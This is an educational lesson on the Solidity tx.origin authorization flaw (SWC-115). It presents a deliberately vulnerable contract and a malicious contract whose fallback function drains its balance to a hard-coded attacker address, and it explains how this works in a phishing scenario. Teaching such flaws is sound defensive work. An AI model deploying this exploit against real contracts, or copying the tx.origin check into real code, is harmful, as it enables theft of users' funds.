 # TxOrigin Attack (SWC-115)

In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties){target=\_blank}. This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115){target=\_blank}). The following smart contract shows you why. It is susceptible to attack.

```solidity
pragma solidity >0.5.0;

// Example Tx.Origin Authentication Attack
contract VulnerableContract {
  address payable owner = msg.sender;

  function withdraw(address payable _recipient) public {
    require(tx.origin == owner);
    _recipient.transfer(address(this).balance);
  }

  function getBalance() view public returns(uint) {
    return address(this).balance;
  }

  function() external payable {}
}

contract MaliciousContract {
  VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);
  address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;

  function() external payable {
    vulnerableContract.withdraw(attackerAddress);
  }
}
```

In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

## Additional Resources

- [Solidity documentation on the security considerations of tx.origin](https://docs.soliditylang.org/en/latest/security-considerations.html#tx-origin){target=\_blank}
- [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115){target=\_blank}
